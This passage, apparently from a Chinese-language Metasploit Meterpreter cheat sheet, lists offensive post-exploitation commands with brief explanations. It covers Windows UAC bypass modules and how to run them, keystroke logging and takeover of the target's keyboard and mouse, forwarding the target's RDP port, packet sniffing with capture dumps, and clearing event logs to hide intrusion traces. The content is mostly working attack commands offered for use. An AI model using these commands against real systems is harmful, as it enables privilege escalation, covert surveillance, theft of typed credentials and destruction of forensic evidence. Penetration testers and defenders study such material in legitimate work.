 **bypassuac**

```bash
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_injection
use windows/local/bypassuac_vbs
use windows/local/ask
# 如何使用脚本
msf > use exploit/windows/local/bypassuac
msf > set SESSION 2
msf > run
```



### 键盘鼠标模块

- `keyscan_start`
  针对目标主机开启键盘记录功能
- `keyscan_dump`
  存储目标主机上捕获的键盘记录
- `keyscan_stop`
  停止针对目标主机的键盘记录
- `uictl enable keyboard/mouse`
  接管目标主机的键盘和鼠标

### 网络嗅探模块

- `ipconfig`
  获取目标机上的网络接口信息
- `portfwd`
  Meterpreter内嵌的端口转发器，例如将目标机的3389端口转发到本地的1234端口`
  portfwd add -l 1234 -p 3389 -r 192.168.10.142
- `route`
  显示目标机的路由信息
- `run get_local_subnets`
  获取目标机所配置的内网的网段信息

- `use sniffer`
  加载嗅探模块
- `sniffer_interfaces`
  列出目标主机所有开放的网络接口
- `sniffer_start interfaceID`
  在目标主机指定网卡上开始监听
- `sniffer_dump interfaceID /tmp/xpsp1.cap`
  将指定网卡上嗅探的内容dump到本地/tmp/xpsp1.cap文件中
- `sniffer_stats interfaceID`
  获取正在实施嗅探网络接口的统计数据
- `sniffer_stop interfaceID`
  停止嗅探

### 日志清理模块

- `clearev`
  清除目标主机上的日志记录
- `run event_manager`
  清理日志
